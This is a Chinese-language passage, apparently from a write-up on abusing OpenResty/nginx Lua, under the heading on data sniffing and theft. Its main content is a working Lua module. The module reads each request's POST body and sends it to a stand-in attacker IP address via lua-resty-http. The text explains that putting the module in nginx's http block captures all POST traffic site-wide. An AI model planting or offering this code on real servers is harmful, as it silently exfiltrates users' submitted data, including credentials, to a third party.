 ### 数据监听、窃取
nginx实现数据监听非法方便，只要以下ngx.req.read_body()和local post_args = ngx.req.get_post_args()2行代码即可，
再利用lua-resty-http模块就可以将数据通过post的方式提交到黑阔指定的地方，测试代码如下：
```lua
local http = require "resty.http"
local cjson = require("cjson")

local _M = {}

function _M.sniff()
    ngx.req.read_body()
    local post_args = ngx.req.get_post_args()
    ngx.log(ngx.DEBUG, "data=" .. cjson.encode(post_args))
    if post_args then
        local httpc = http.new()
        local res, err = httpc:request_uri("http://111.111.111.111/test/", {
            method = "POST",
            body = "data=" .. cjson.encode(post_args),
            headers = {
            ["Content-Type"] = "application/x-www-form-urlencoded",
        }
        })
    end
end

return _M
```
然后用tornado写个接受post参数的web程序，测试代码及效果如下：
![](./images/003.png)
如果将监听的代码放到nginx的http段中，表示全局监听并窃取post数据，这样黑阔就会收到所有的post数据请求，对目标服务器的性能也有影响。
